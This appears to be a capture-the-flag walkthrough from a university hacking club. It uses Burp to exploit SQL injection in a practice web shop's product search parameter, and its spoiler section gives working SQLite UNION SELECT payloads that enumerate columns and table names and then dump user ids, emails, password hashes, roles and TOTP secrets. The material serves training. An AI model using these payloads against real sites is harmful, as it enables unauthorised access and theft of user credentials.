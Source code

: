 # Challenge 1 - Admin Login

Try and use SQLi to dump all user credentials!

<details>
  <summary>Click me for a hint</summary>
  
  ```
  Try and capture the search api in burp, the q= parameter might not like certain inputs.
  ```
</details>

<details>
  <summary>Click me for all the spoilers</summary>
  
  # Spoilers
  
  Firstly, make sure burp is intercepting and refresh the main page.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/1.png">
  </p>
  
  Foward the requests until you reach the search api `/rest/products/search?q=`. Once found, right click and `Send to Repeater`.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/2.png">
  </p>
  
  Once the request has been captured in burp, right click and `Send to Repeater`.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/3.png">
  </p>
  
  If we send the request with a `'`, we get success. Let's try a prompt an error message.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/4.png">
  </p>
  
  By putting `aaa'` as our parameter, we got an error. Notice the `SQLITE_ERROR`, this tells us that the backend database is SQLITE, this is useful we now know the specific syntax required for injection (using a bit of Google-Fu). 
  
  The query is: `SELECT * FROM Products WHERE ((name LIKE '%<input>%' OR description LIKE '%<input>%') AND deletedAt IS NULL) ORDER BY name`.
  
  It's a longer one than last time, but we can still inject into it. As we want to dump the database, we'll be using `UNION SELECT` to inject.
  
  The first thing we need to do is enumerate how many columns are actually being displayed when we perform as search. We can do that using `aaa')) union select 1 --` (if there is only 1 column, we shouldn't get an error).
  
  So the new query should look like: `SELECT * FROM Products WHERE ((name LIKE '%aaa')) union select 1 -- ` ~~%' OR description LIKE '%<input>%') AND deletedAt IS NULL) ORDER BY name~~

  Let's try it. We also need to ensure we are url encoding our text as it will be sent within the url of the request, not the data like last time.

  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/5.png">
  </p>

  Our first request injection request should look like this. Once it's sent, we receive a different error.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/6.png">
  </p>
  
  The error states `SELECTs to the left and right of UNION do not have the same number of result columns`. This means that there are either more or less than 1 columns.
  
  Lets try 2 instead!
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/7.png">
  </p>
    
  Nope, same message.
  
  Let's try 3!
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/8.png">
  </p>
  
  Nope...
  
  Let's continue until we no longer get that message.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/9.png">
  </p>
  
  Eventually we see that there are a total of 9 columns being displayed by the search function.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/10.png">
  </p>

  Now that we know the amount of columns, we can being enumerating and dumping data from the database. As we know the backend database is using SQLITE, we can tailor our injection to that format.
  
  Let's start by dumping the table names. This can be done with the following query:
  
    aaa')) union select 1,2,3,4,5,6,7,8,tbl_name from sqlite_master -- 
  
  and when url encoded:
  
    aaa'))+union+select+1,2,3,4,5,6,7,8,tbl_name+from+sqlite_master+--+
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/11.png">
  </p>

  When we send this query, column 9 should include the table names. 
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/12.png">
  </p>
  
  Now we know the table names, let's try and get the column names from the table 'Users'. Our modified query will look like this:
   
    aaa')) union select 1,2,3,4,5,6,7,8,sql from sqlite_master where tbl_name = 'Users' -- 
    
  and when url encoded:
  
    aaa'))+union+select+1,2,3,4,5,6,7,8,sql+from+sqlite_master+where+tbl_name='Users'+--+
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/13.png">
  </p>
  
  Let's send the request and see what we get.
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/14.png">
  </p>
  
  Now we know the column names, we can get all the data held within this table. Let's grab the `id`, `username`, `email`, `password`, `role`, and `totpSecret`.
  
  Our query should look like:
  
    aaa')) union select id,username,email,password,role,totpSecret,7,8,9 from Users -- 
  
  and when url encoded:
  
    aaa'))+union+select+id,username,email,password,role,totpSecret,7,8,9+from+Users+--+
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/15.png">
  </p>
  
  Let's send our request!
  
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/16.png">
  </p>

  Success! We have dumped the table holding the user credentials.

</details>

